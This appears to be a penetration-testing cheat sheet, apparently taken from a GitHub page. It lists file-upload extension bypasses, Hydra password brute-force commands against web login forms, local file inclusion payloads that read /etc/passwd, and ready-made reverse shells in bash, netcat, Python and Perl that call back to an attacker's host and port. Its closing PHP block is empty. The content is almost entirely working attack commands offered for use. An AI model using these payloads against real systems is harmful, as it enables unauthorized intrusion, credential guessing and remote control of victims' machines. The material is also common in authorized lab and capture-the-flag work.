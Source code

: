 ```bash
# making /tmp the first directory Bash will check for executables
export PATH=/tmp:$PATH

# also adds /tmp to PATH
# but makes the /tmp directory the last directory Bash will check for executables
export PATH=$PATH:/tmp
```
### Bypassing Upload File Restrictions
```
PHP: phtml, .php, .php3, .php4, .php5, .inc

ASP: asp, .aspx

PERL: .pl, .pm, .cgi, .lib

JSP: .jsp, .jspx, .jsw, .jsv, .jspf

COLDFUSION: .cfm, .cfml, .cfc, .dbm
    
# example 
shell.aspx;.jpeg | shell.jsp.png
```
### Hydra Syntax
```bash
# FOR HTTPS
hydra -l admin -P /usr/share/wordlists/top1m-rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -t 64

# the difference is https-post-form for HTTPS and http-post-form for HTTP

# FOR HTTP
 hydra -l admin -P /usr/share/wordlists/top1m-rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"
```
### Local File Inclusion (LFI)
```
Example's:
http://[target]/file=/var/tmp/hack.php&cmd=ls

http://[target]/file=/var/tmp/hack.php?cmd=ls

http://[target]/file=../../../../../etc/passwd
```
### Go-to PentestMonkey Reverse Shells
```bash
bash -c "'bash -i >& /dev/tcp/[lhost]/[lport] 0>&1'"
# OR
bash -i >& /dev/tcp/[lhost]/[lport] 0>&1
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] [port] >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[lhost]",[lport]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```perl
perl -e 'use Socket;$i="[lhost]";$p=[lport];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```php
```